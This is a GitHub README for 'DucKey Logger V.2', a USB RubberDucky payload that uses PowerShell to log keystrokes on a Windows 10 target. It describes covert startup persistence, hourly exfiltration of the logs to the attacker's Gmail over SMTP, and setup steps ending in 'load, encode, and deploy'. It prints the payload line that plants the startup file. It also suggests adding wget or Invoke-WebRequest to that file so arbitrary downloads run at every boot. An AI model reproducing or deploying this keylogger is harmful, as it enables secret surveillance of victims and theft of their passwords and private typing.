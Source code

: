 # DucKey Logger V.2 
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
:::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   :::
:+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+:
+:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  
+#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   
+#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    
#+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    
#########   ########   ########  ###    ### ##########    ###     
```

## Update:
logs can now be sent every hour

## Overview:
```
DucKey Logger is a USB RubberDucky payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes and email the logs every hour and startup [via SMTP]
- *l.ps1* will email the logs every startup and every hour [via SMTP]
    - sends logs hourly, regardless of system time

## Resources:
- [YouTube Video](https://youtu.be/K0g0RHSUofw)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 20 of *payload.txt*, change 'L' to the name of your ducky [SD Card]
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
3. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
4. load, encode, and deploy!!

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
